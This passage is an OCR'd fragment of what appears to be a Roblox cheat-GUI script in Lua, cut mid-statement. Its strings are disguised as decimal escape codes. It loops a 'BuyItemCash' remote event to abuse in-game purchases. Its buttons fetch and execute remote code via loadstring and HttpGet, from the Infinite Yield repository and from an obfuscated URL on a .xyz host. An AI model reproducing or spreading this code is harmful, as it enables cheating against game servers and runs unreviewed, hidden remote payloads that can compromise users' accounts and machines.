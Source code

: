 "\76\111\108\108\121\32\32\82\97\105\110\98\111\119" } game:GetService("\82\101\112\108\105\99\97\116\101\100\83\116\111\114\97\103\101").RemoteEvents.BuyItemCash:FireServer(unpack(o)) wait(0.1) end else _G.on = false end end) local c = f.AddPage("\83\99\114\105\112\116\115") c.AddButton("\105\110\102\32\121\101\108\100", function() loadstring(game:HttpGet('https://raw.githubusercontent.com/EdgeIY/infiniteyield/master/source'))() end) c.AddButton("\115\97\102\101\32\112\108\97\99\101", function() loadstring(game:HttpGet("\104\116\116\112\115\58\47\47\116\104\101\107\105\108\108\101\114\104\111\111\100\46\120\121\122\47\80\111\112\105\116\83\99\114\105\112\116\47\83\65\70\69\80\76\65\67\69"))() end) local c = f.AddPage("\100\111\110\111\58\115\49\103\97\122\45\106\107\114") local c = f.AddPage("\122\121\110\97\110\45\106\117\97\110") local c = f.AddPage("\122\109\107\97\112\101\115") 
